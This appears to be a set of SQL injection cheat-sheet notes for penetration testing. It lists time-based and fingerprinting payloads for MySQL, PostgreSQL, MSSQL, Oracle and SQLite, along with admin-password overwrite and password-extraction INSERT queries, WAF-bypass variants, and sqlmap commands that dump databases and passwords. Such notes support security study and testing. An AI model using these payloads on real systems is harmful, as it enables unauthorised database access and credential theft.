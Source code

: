 #  Detecting SQLi
- Is the server going to query a database containing my input?
	- If so/you suspect so, TEST!


#  Testing your target
1. Break the server
	- Send inputs that cause errors - ', \", \`, ...
2. Fix the error and get a valid SQL with injection! - \' OR 1=1-- -

#  Testing your target - Blind?
- Send sleep statement, See if server waits!
	- MySQL - \'+sleep(10)
	- PostgreSQL - \'||pg_sleep(10)
	- MSSQL - \'WAITFOR DELAY '0:0:10'
	- Oracle - \'AND 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10)
	- SQLite - \'1 AND 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))

#  Identify Backend
- MySQL - \‘ + sleep(10) conv('a',16,2)=conv('a',16,2) connection_id=connection_id crc32('MySQL')=crc32('MySQL')
- Oracle - \' AND 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10) ROWNUM=ROWNUM RAWTOHEX('AB')=RAWTOHEX('AB')
- PostgreSQL - \'||pg_sleep(10) 5::int=5 pg_client_encoding()=pg_client_encoding()
- SQLite - 1' AND 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2)))) sqlite_version()=sqlite_version()
- MSACCESS - val(cvar(1))=1 IIF(ATN(2)>0,1,0)BETWEEN 2 AND 0 cdbl(1)=cdbl(1)
- MSSQL - \'WAITFOR DELAY '0:0:10'

#  Comments in backends
- MySQL - \#c, --c, \/\*c\*\/
- Oracle - --c
- PostgreSQL - --c, \/\*c\*\/
- SQLite - --c, \/\*c\*\/
- MSSQL - --c, \/\*c\*\/

#  Types of SQLi
##  UNION BASED
- The **UNION** keyword is used to link SELECT statements together.
- But both SELECT statements need to select the same amound of columns!
- Find out the number of columns in the select statement
- Extract information!


##  BLIND, ERROR, BOOLEAN AND TIME BASED
- Blind: no visual output, but way to differentiate between true and false query
- Error: No visual output but way to differentiate between error or not in query
- Boolean: Visual difference between true or false result
- Time: No visual output but way to change the time the server takes to respond

##  INSERT INTO BASED
- Databases can not only query but also insert data
- Think about registration forms, etc...
- MySQL Truncation Attack - 
	- MySQL will truncate spaces from fields
	- So \'admin will become 'admin'
	- We can use this to overwrite admin credentials
- On Duplicate Key - 
	- In MySQL, ON DUPLICATE KEY, states what to do when something is already present.
	- INSERT INTO users VALUES("pink","safepass"), ("admin","safepass") ON DUPLICATE KEY UPDATE password="safepass"
- Information Extraction - 
	- We create another user named data with the admin password as email
	- INSERT INTO users VALUES("pink","my@mail.com"), ("data", (SELECT password FROM users WHERE user="admin"));


##  OTHER
- Stacked Queries
	- Uncommon
	- We can stack queries: Query1; Query2
	- The output of query 2 won't be shown BUT can be used in blind SQLi.
- Out of band
	- Very uncommon
	- If the databse can make DNS or HTTP requests, we use those send data
	- Check [this](https://infosecwriteups.com/out-of-band-oob-sql-injection-87b7c666548b) out for more.
- Routed SQLi
	- Extremely uncommon
	- If we have a scenario where the result of our query is being used in another query.
	- Check [this](http://www.securityidiots.com/Web-Pentest/SQL-Injection/routed_sql_injection.html) out for more


#  WAF Bypass
- No Whitespace using comments 
	- '/\*\*/OR/\*\*/1=1/\*\*/--
- No whitespace using parenthesis  
	- 'AND(1)=(1)--
- No Equal using LIKE, (NOT) IN, BETWEEN 
	- 'text' LIKE 'text' 
	- 'text' IN 'text'
	- 'b' BETWEEN 'a' AND 'c'
- No AND or OR
	- && and ||
- No > or <
	- NOT BETWEEN n AND m
- No Where
	- HAVING
- No comma
	```
	LIMIT 0,1=>LIMIT 1 OFFSET 0
	SUBSTR('ABC',1,1)=>SUBSTR('ABC' FROM 1 FOR 1)
	SELECT 1,2,3 => UNION SELECT * 
	FROM (SELECT 1)a 
	JOIN(SELECT 2)b
	JOIN(SELECT 3)c
	```
- No information_schema.tables
	- `SELECT * FROM mysql.innodb_table_stats;`
	- `SHOW TABLES in db`


#  SQLMap
- Tool
- Automates detecting & exploiting SQLi
- Easy to use
- Extremely tuneable

##  Basic SQLMap Usage
- Simple run
	- sqlmap --url \<\<URL\>\>
- Using a request file saved from BURP or somewhere else
	- sqlmap -r file.req
- More parameters
	- -p "Parameter to test"
	- --risk 3
	- --level 5
	- --dbms "DBMS systems"
	- ..(use -hh for more)

## SQLMap Retrieve Data
- Database Data
	- Retrieve everything: --all
	- Names of the dbs: --dbs
	- --tables -D DB
	- --columns -T table -D DB
	- Dump column: -D DB -T table -C column
- Internal information
	- --current-user
	- -is-dba(is db admin)
	- --hostname
	- --users
	- --passwords
	- --privileges

